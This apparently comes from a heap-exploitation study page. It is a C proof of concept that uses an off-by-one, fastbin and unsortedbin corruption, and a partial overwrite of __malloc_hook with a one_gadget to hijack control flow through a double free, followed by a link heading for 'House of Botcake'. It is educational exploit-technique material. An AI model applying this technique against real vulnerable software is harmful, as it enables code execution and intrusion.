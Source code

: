 ```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

#define libc_base 0x7ffff7a0d000
#define __malloc_hook libc_base+0x3c4b10
#define one_gadget libc_base+0xf02a4

int main() {
    void *p, *q, *r, *s, *u, *v;
    p = malloc(0x18);
    q = malloc(0xc8);
    r = malloc(0x68);
    *(uint64_t *)((uint64_t)q + 0x68) = 0x61;
    free(q);
    q = malloc(0xc8); // Get Unsortedbin addr
    s = malloc(0x68);
    u = malloc(0x68); // For fixing Fastbin
    v = malloc(0x68); // For triggering malloc_printerr
    *(uint8_t *)((uint64_t)p + 0x18) = 0x71; // Off by One

    free(r);
    free(s);
    *(uint8_t *)((uint64_t)s) = 0x20; // Point s's fd to q
    *(uint16_t *)((uint64_t)q) = (__malloc_hook - 0x23) & 0xffff; // Point q's fd to `&__malloc_hook - 0x23`
    fprintf(stderr, "malloc(0x68) => %p\n", malloc(0x68));
    fprintf(stderr, "malloc(0x68) => %p\n", malloc(0x68));
    p = malloc(0x68); // Get the chunk @ `&__malloc_hook - 0x23`
    free(u);
    *(uint64_t *)((uint64_t)u) = 0; // Set Fastbin's fd = 0 to fix Fastbin

    q = malloc(0xc8);
    fprintf(stderr, "malloc(0x18) => %p\n", malloc(0x18));
    free(q);
    // Unsortedbin Attack
    *(uint16_t *)((uint64_t)q + 0x8) = (__malloc_hook - 0x10) & 0xffff; // Point q's bk to `&__malloc_hook - 0x10`
    fprintf(stderr, "malloc(0xc8) => %p\n", malloc(0xc8));
    // Partial Write one_gadget
    *(uint16_t *)((uint64_t)p + 0x13) = one_gadget & 0xffff;
    *(uint8_t *)((uint64_t)p+ 0x15) = (one_gadget >> 16) & 0xff;
    free(v);
    free(v); // Trigger malloc_printerr
    exit(0);
}
```

## [House of Botcake](https://raw.githubusercontent.com/shellphish/how2heap/master/glibc_2.26/house_of_botcake.c) (>= glibc-2.26)
